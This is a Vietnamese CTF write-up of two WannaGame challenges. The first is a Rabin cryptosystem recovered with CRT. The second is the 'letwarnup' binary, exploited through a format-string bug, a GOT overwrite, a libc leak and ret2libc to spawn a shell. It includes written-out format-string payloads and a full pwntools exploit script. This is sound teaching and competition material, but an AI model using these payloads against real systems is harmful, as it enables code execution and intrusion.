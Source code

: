 # WannaGame Chapionship

![img](https://github.com/datnlq/Source/blob/main/CTF/img/54010N.png?raw=true)

Chào các bạn, team mình vừa tham gia giải WannaOne tổ chức vừa qua và giải được 1 vài challenge, sau đây mình sẽ tổng hợp lại các writeup của cả team đã solve được :3

### Baby Square Root (Crypto)
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root.png?raw=true)
```
fromCrypto.Util.number import bytes_to_long, getPrime
from secret import flag

m = bytes_to_long(flag)

def genkey(nbits):
    while True:
        p, q, r = [getPrime(nbits) for _ in range(3)]
        if (p % 4 == 3) and (q % 4 == 3) and (r % 4 == 3):
            if (m % p)**2 > p and (m % p)**2 > q and (m % r)**2 > r:
                return p, q, r

p, q, r = genkey(256)
print("p = %d" % p)
print("q = %d" % q)
print("r = %d" % r)        
n = p * q * r
assert m * m > n
c = pow(m, 2, n)
print("c = %d" % c)
# p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
# q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
# r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
# c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444

```

Đọc hiểu đoạn code python trên chúng ta nhận ra 1 vài vấn đề như sau:

  + Đây là 1 bài [Rabin RSA](https://www.math.auckland.ac.nz/~sgal018/crypto-book/ch24.pdf)
  + q,p,r = 3 (mod 4)
  + Khi Legendre Symbol (x/N) = 1 thì x và n-x là 1 square modulo n

Dựa vào những phân tích ở trên ta có được các biểu thức sau:
  + mp = c^(p+1)/4 (mod p) => mp^2 = c (mod p)
  + mq = c^(q+1)/4 (mod q) => mq^2 = c (mod q)
  + mr = c^(r+1)/4 (mod r) => mr^2 = c (mod r)
  
 Từ những dữ kiện trên, ta dùng CRT để tính toán ra lại giá trị m. Dựa vào đó ta có code như sau:



```
from Crypto.Util.number import *
import gmpy2

p = 70983802669936779583888271861264418553792693554114299680738628616089490185419
q = 58305592279975890783353046164122693676607057964958376141731197322666598532103
r = 97916428487890361773100867250333330323792113286852927362830936108809145675571
c = 133577637589652723069183361093768415945855108781724437021455876659182394384174818367149957719648205506911291215264096735072761818791817528925431287027255773272638623023278085524784625145794560351502585907066260712268740708335604444
n = p * q * r

mp = pow(c, (p+1)//4, p)
mq = pow(c, (q+1)//4, q)
mr = pow(c, (r+1)//4, r)

print("mp = ", mp)
print("mq = ", mq)
print("mr = ", mr)

print(pow(mp, 2, p) == c%p)

yp = n//mq//mr
yq = n//mp//mr
yr = n//mp//mq

zp = inverse(yp, p)
zq = inverse(yq, q)
zr = inverse(yr, r)

m = (mp*yp*zp + mq*yq*zq + mr*yr*zr) 
m = 405251878563859034013993263635104394619048731139877286040011778613066766304610456261463756664887516315281979277436649271325146838356345161228881883353921803425724176576610588194813849282591846167918210163694920450096777213599649434
print(long_to_bytes(m))
print(long_to_bytes(n - m))
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/baby_square_root_flag.png?raw=true)

### letwarnup (Pwn)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup.png?raw=true)

Đây là một challenge khá là khó khăn với mình :| vì mình ngồi hơn 8h mà vẫn bị ngáo vì bài này @@

Đầu tiên đề cho chúng ta 2 file: 1 file binary và 1 libc.

Sử dụng các câu lệnh cơ bản để kiểm tra file và dùng IDA Pro để xem souce như sau:


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_checkfile.png?raw=true)

Dựa vào file 64 binary để sử dụng IDA Pro 64 để dịch ngược lại:

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_IDAvuln.png?raw=true)

Sau đó chúng ta chạy thử chương trình và gdb để phân tích rõ flow của chương trình hơn.

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_test.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_findbuffaddress.png?raw=true)

Như chúng ta thấy thì không hề thấy input đã được ghi vào stack làm mình hơi hoang mang

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_debug_stack.png?raw=true)

Tuy nhiên vì mình để ý thấy có hàm cấp phát malloc nên mình đã tìm lại 1 chút và phát hiện ra rằng input đã được ghi vào 1 giá trị trong stack

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_buffad.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retvuln.png?raw=true)

Sau 1 loạt hành động thử như trên thì mình rút ra được vài điều như sau:

  + Đây là lỗi fmt ở hàm vuln
  + Flow của chương trình sẽ dừng ở hàm exit() trong hàm vuln()
  + Input sẽ không được ghi vào stack mà sẽ được ghi vào 1 địa chỉ tồn tại trong stack


Sau khi rút ra được những điều trên thì mình lú mất tiêu rồi @@ giờ intput không có trong stack, địa chỉ của exit cũng không có trong stack :| Out of game rồi

Sau đó có 2 hint xuất hiện như sau: 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint1.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_hint2.png?raw=true)

Hint đề cập đế old rbp và 1 kỹ thuật nghe khá là lạ tai là two stage write sau đó gọi ý chúng ta sẽ tác động đến địa chỉ trong GOT table Hhmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm

Sao vẫn có cảm giác out of game thế nhờ

Nhưng không sao, tư duy dần rõ ràng sau khi mình ngồi thêm vài tiếng :vv Mình đã có thể tạo ra địa chỉ của exit trên stack bằng old rbp của main được tại vuln, sau đó ta thay đổi giá trị của địa chỉ exit GOT bằng địa chỉ của hàm main để tạo ra 1 looping cho chúng ta khai thác
```
payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
```
![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_payloadloop2.png?raw=true)

Sau đó chúng ta phải leak được lib base bằng cách leak địa chỉ của hàm trả về là __libc_start_main+243 với offset là 17 

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_retmain.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_leaklibcbase.png?raw=true)

Tính toán và ghi hàm system và exit GOT để có thể exploit bằng kỹ thuật ret2libc :<


![img](https://github.com/datnlq/Source/blob/main/CTF/img/letwarnup_ret2libc.png?raw=true)

```
from pwn import *

BIN = "./letwarnup"
elf = ELF(BIN)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

def exploit():
	__breakpoint="""
		b*0x0000000000401278
		"""
	gdb.attach(io,__breakpoint)
	payload = b'%c%c%c%c%c%c%4210746c%lln%53743c%hn'
	io.sendlineafter(b'Enter your string:\n', payload)
	for i in range(1040):
	  io.recv()
	payload = b'%17$p'
	io.sendlineafter(b'Enter your string:\n', payload)
	libc.address = int(io.recv(14).decode(), 16) - libc.symbols['__libc_start_main'] - 243
	print('Libc base: ', hex(libc.address))
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210714c%lln')
	io.sendlineafter(b'Enter your string:\n', b'%c%c%c%c%c%c%4210716c%lln')
	offset = (libc.symbols['system'] & 0xff0000) >> 16
	syscall = libc.symbols['system'] & 0xffff
	print('Offset: ', hex(offset))
	print('System: ', hex(syscall))
	if offset < 14:
	  print('Fail: Offset < 14')
	  io.close()
	  exit(0)
	payload = '%c%c%c%c%c%c%c%c%c%c%c%c%c%c%' + str(offset - 14) + 'c%hhn%c%c%c%c%' + str(syscall - offset - 4) + 'c%hn'
	io.sendlineafter(b'Enter your string:\n', bytes(payload, 'utf-8'))
	io.sendlineafter(b'Enter your string:\n', b'/bin/sh\x00')
	io.interactive()
io = process(BIN)
#io = remote('45.122.249.68', 10005)
context.log_level = 'debug'
exploit()
```
























